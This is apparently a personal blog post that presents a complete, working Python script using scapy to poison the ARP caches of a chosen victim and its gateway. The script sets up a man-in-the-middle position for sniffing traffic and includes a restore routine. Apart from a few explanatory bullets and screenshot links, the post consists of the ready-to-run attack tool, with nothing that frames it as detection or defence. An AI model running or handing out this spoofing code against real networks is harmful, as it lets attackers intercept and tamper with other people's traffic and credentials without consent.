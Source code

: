 ```yaml
---
title: An ARP Spoof/Poison Program
date: 2021-06-12 10:45:47 +07:00
categories: python
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A Program to poison the ARP cache of a victim host.
---
```


<p align="left">
 <img src="https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arp_meme.jpg">
</p>


## This is a python script that poisons the ARP cache of a victim and the gateway/router to MITM and sniff data succesfully and resets the cache back upon hitting "CTRL+C".

- We sent the spoofed packets using the scapy.ARP() method. (Setting opcode=2 as a response)

- We print dynamically using the print function as follows: `print("\r CONTENT, end="")` (set a null char as delimiter rather than the default \n)

- Implemented a restore function to restore the arp cache.


### Code:

```python
#!/usr/bin/env python
import sys
import re
import scapy.all as scapy
import time
import re
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target_ip", dest="target_ip", help="Target IP address to MITM")
    parser.add_argument("-g", "--gateway_ip", dest="gateway_ip", help="Gateway/router's IP address to MITM")
    options = parser.parse_args()
    if not options.target_ip:
        # code to handle error
        parser.error("[-] Please specify an target ip, use --help for info.")
    if not options.gateway_ip:
         # code to handle error
         parser.error("[-] Please specify a gateway ip, use --help for info.")
    return options

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    clients_list = ""
    for element in answered_list:
        # use show method to view packet contents.
        clients_list += element[1].hwsrc
    return clients_list

def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    # use scapy.ls(scapy.ARP) to view fields
    # op=2 --> opcode for response , hwsrc automatically set to attackers
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    # count set to 4 to make sure cache is restored
    scapy.send(packet, count=4, verbose=False)

sent_packet_count = 0
options = get_arguments()
target_ip = options.target_ip
gateway_ip = options.gateway_ip

print("""
    
    ███████████████████████████████████████████████
    ██▀▄─██▄─▄▄▀█▄─▄▄─█─▄▄▄▄█▄─▄▄─█─▄▄─█─▄▄─█▄─▄▄─█
    ██─▀─███─▄─▄██─▄▄▄█▄▄▄▄─██─▄▄▄█─██─█─██─██─▄███
    ▀▄▄▀▄▄▀▄▄▀▄▄▀▄▄▄▀▀▀▄▄▄▄▄▀▄▄▄▀▀▀▄▄▄▄▀▄▄▄▄▀▄▄▄▀▀▀
    
""")

try:
    while(True):
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packet_count += 2
        # Dynamic printing
        print("\r[+] Packets sent: " + str(sent_packet_count), end="")
        #time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Resetting ARP tables back to normal!")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)

```

### Output:

*Attacker:*

![Image](https://raw.githubusercontent.com/m3rcer/Python-Hax/main/ArpSpoof/arpspoof1.png?token=ATPNKE5RVI2XBNGIO4S2BB3BAHOIQ)

*Target arp cache after cache poisoning:*

![Image](https://raw.githubusercontent.com/m3rcer/Python-Hax/main/ArpSpoof/arpspoof2.png?token=ATPNKE2USN5XGXD2OLK56MLBAHOF4)

*Target arp cache after hitting "CTRL+C" to restore cache:*

![Image](https://raw.githubusercontent.com/m3rcer/Python-Hax/main/ArpSpoof/arpspoof3.png?token=ATPNKE26UIQ2PQMWLJTP7Y3BAHOH4





